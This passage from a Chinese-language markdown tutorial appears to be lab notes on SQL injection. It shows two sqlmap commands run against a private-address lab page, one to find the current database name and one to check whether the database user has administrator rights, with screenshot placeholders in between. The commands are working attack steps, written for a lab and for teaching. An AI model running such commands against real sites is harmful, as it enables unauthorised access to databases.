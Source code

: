 ![image-20240412111407785](../图片/image-20240412111407785.png)



##### 查询数据库名

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --current-db --batch
```

![image-20240412112332027](../图片/image-20240412112332027.png)

##### 查询用户是否有管理权限，这里显示的True，说明有管理员权限

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --is-dba --batch
```



![image-20240412112518900](../图片/image-20240412112518900.png)
